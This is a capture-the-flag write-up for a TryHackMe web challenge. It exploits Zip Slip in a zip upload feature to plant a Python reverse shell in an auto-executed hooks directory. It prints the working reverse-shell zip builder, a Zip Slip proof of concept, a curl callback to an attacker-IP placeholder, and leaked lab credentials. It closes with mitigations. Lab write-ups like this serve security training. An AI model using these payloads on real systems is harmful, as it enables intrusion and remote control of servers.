




# 🏨 Hacker Holidays Day 10 – The Hollow Shell (CTF Write-up)

<p align="center">


</p>

---

## 📑 Table of Contents

* [🧠 Scenario Overview](#-scenario-overview)
* [🛎️ Concierge Briefing](#️-concierge-briefing)
* [📊 Challenge Information](#-challenge-information)
* [🔍 Phase 1 — Enumeration](#-phase-1--enumeration)
* [🌐 Phase 2 — Web Application Analysis](#-phase-2--web-application-analysis)
* [🔐 Phase 3 — Initial Access](#-phase-3--initial-access)
* [📦 Phase 4 — Upload Functionality](#-phase-4--understanding-upload-functionality)
* [⚙️ Phase 5 — Hook Injection Attempt](#️-phase-5--hook-injection-attempt)
* [💥 Phase 6 — Zip Slip Exploit](#-phase-6--exploiting-zip-slip)
* [🔁 Phase 7 — Reverse Shell](#-phase-7--reverse-shell-via-hooks)
* [🏁 Phase 8 — Flag Retrieval](#-phase-8--flag-retrieval)
* [🔄 Attack Flow Summary](#-attack-flow-summary)
* [🧠 Key Takeaways](#-key-takeaways)

---

## 🧠 Scenario Overview

You find it on the beach: pretty, ordinary — the kind of thing nobody thinks to check.
Slip something inside and hold it to your ear.

The **Byte Lotus beachfront** allows users to upload “shells” (`.zip` files) that configure in-room displays.

> ⚠️ If validation is weak, the uploaded shell becomes an attack vector.

---

## 🛎️ Concierge Briefing

<details>
<summary>Click to expand</summary>

* Upload `.zip` souvenir packs
* Must contain `shell.json`
* Optional **automation hooks** executed automatically
* Allowed asset types:

  * png, jpg, gif, svg, css, json

</details>

---

## 📊 Challenge Information

| Attribute  | Details                                   |
| ---------- | ----------------------------------------- |
| Platform   | TryHackMe                                 |
| Challenge  | Hacker Holidays Day 10 – The Hollow Shell |
| Difficulty | Medium                                    |
| Category   | Web Exploitation                          |
| Target     | Shell Upload System                       |

🔗 https://tryhackme.com/room/hh-thehollowshell-ddb582ac

---

# 🔍 Phase 1 — Enumeration

<details>
<summary>Nmap Scan</summary>

```bash
nmap -Pn -sC -sV 10.130.156.142
```

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu
5000/tcp open  upnp?
```

📸 *Screenshot:*


### Findings

* Port 22 → SSH
* Port 5000 → Web App (primary target)

</details>

---

# 🌐 Phase 2 — Web Application Analysis

<details>
<summary>View Source Discovery</summary>

```html
<!--
 user: concierge
 pass: StayNoticed2024!
-->
```

### Insight

* Credentials exposed in comments
* Indicates poor security hygiene

</details>

---

# 🔐 Phase 3 — Initial Access

<details>
<summary>Credentials</summary>

```
Username: concierge
Password: StayNoticed2024!
```

✔️ Successful login

</details>

---

# 📦 Phase 4 — Understanding Upload Functionality

<details>
<summary>Baseline Upload</summary>

```bash
printf '%s\n' '{"name":"test","assets":[]}' > shell.json
zip baseline.zip shell.json
```

Upload result:

```
Shell 'test' brought ashore.
Stored at shells/<id>/
```
📸 *Screenshot:*


### Access Test

```
http://<target>:5000/shells/<id>/shell.json
```


### Key Insight

Identified directories:

* `/static`
* `/shells`
* `/hooks`

</details>

---

# ⚙️ Phase 5 — Hook Injection Attempt

<details>
<summary>Initial Payload</summary>

```json
{
 "name":"callback-test",
 "assets":[],
 "hooks":[
  "curl http://<attacker-ip>:8000/"
 ]
}
```

### Result

❌ No execution

### Insight

Hooks likely executed only from backend-controlled locations

</details>

---

# 💥 Phase 6 — Exploiting Zip Slip

<details>
<summary>Zip Slip Explained</summary>

Zip Slip allows directory traversal during archive extraction:

```
../../static/file.css
```

➡️ Writes outside intended directory

</details>

---

<details>
<summary>Proof of Concept</summary>

```python
import json
import zipfile

manifest = {
 "name": "zipslip-proof",
 "assets":[]
}

with zipfile.ZipFile("zipslip-proof.zip","w") as archive:
   archive.writestr("shell.json", json.dumps(manifest))
   archive.writestr("../../static/zipslip-proof.css","ZIP_SLIP_CONFIRMED\n")
```

### Verification

```
http://<target>:5000/static/zipslip-proof.css
```

✔️ Arbitrary file write confirmed

</details>

---

# 🔁 Phase 7 — Reverse Shell via Hooks

<details>
<summary>Exploit Strategy</summary>

1. Use Zip Slip
2. Write file into `/hooks`
3. Trigger execution

</details>

---

<details>
<summary>Reverse Shell Payload</summary>

```python
import json
import zipfile

LHOST = "10.130.85.131"
LPORT = 4444

manifest = {
   "name": "shoreline-update",
   "assets": []
}

callback = f'''
import os
import pty
import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(({LHOST!r}, {LPORT}))

for descriptor in (0,1,2):
   os.dup2(sock.fileno(),descriptor)

pty.spawn("/bin/bash")
'''

with zipfile.ZipFile("hollow-reverse-shell.zip","w") as archive:
   archive.writestr("shell.json", json.dumps(manifest))
   archive.writestr("../../hooks/callback.py", callback)
```

</details>

---

<details>
<summary>Listener Setup</summary>

```bash
wget -q https://raw.githubusercontent.com/brightio/penelope/refs/heads/main/penelope.py
python3 penelope.py
```

</details>

---

<details>
<summary>Shell Access</summary>

```bash
uid=996(roomservice) gid=996(roomservice)
```

✔️ Reverse shell obtained

📸 *Screenshot:*


</details>

---

# 🏁 Phase 8 — Flag Retrieval

<details>
<summary>Flag Location</summary>

```bash
ls -la /home/roomservice/
```

```
-rw-r--r-- 1 root root 30 flag.txt
```

🎯 Flag identified

📸 *Screenshot:*


</details>

---

# 🔄 Attack Flow Summary

```text
Recon → Web App Discovery
      ↓
Credentials Exposure
      ↓
Login Access
      ↓
Upload Feature Analysis
      ↓
Zip Slip Exploit
      ↓
Write to /hooks
      ↓
Reverse Shell Execution
      ↓
Privilege Context (roomservice)
      ↓
Flag Discovery
```

---

# 🧠 Key Takeaways

## 🔐 Security Issues

* Hardcoded credentials
* Unsafe archive extraction
* No path validation
* Blind trust in automation hooks

## 🛡️ Mitigations

* Validate extraction paths
* Restrict file write locations
* Disable execution of user-controlled hooks
* Remove sensitive frontend data

---

# 🎯 Final Thoughts

This challenge highlights how **chained vulnerabilities** lead to full compromise:

* Credential leakage
* File upload abuse
* Zip Slip exploitation
* Remote Code Execution

➡️ Result: **Complete system compromise**

---

⭐ *Try it yourself and retrieve the flag!*
